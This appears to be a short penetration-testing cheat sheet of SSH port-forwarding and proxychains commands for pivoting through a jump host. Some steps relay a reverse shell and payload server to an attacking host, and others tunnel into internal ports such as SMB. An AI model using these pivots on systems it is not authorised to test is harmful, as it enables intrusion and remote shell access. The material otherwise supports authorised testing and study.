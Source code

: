 ### SSH port forwarding 
#### 1. Local port forward, doing a local port forward proxy with jump host local port and target port. So that the exploit can go through from jump box to target machine and port
```bash
#execute on KALI
ssh -N Administrator@${JUMP} -p 22 -L 2222:${TARGET}:22
```
#### 2. forward rev shell
```bash
#Execute on jump box
ssh -N user@${ATTACKING_HOST} -p 22 -R 0.0.0.0:443:127.0.0.1:443
```
At this stage you can start a listen on port 443 to catch the rev shell
But remember all LHOST is now the jump box

#### 3. If you need a web server to serve payload
```bash
#Execute on jump box
ssh -N user@${ATTACKING_HOST} -p 22 -L 0.0.0.0:8080:127.0.0.1:8080
```

#### 4. map one remote host port to jump box
```bash
#Executed on jump box
ssh -N -L 0.0.0.0:4455:REMOTE_HOST:445 USER@REMOTE_HOST
```

#### 5. access remote host port via jump box dynamically
```bash
#Execute on jump box
ssh -Nf -D 0.0.0.0:proxy_port USER@REMOTE_HOST
```

#### 6. map one remote port from remote host to kali box via jumpbox(remote port forward)
```bash
#executed on jump box
ssh -Nf -R 127.0.0.1:ANY_UNUSED_PORT:REMOTE_TARGET:TARGET_PORT kali@KALI_IP
```

#### 7. Dynamic remote port forward, use one localhost port to access all remote host ports
```bash
#execute on jump box
ssh -Nf -R Kali_proxy_port(1080) kali@KALI_IP
```

#### 8. When need to access a host via proxy
```bash
# Make sure you have your proxy running correctly
proxychains4 -q YOUR_COMMAND
```
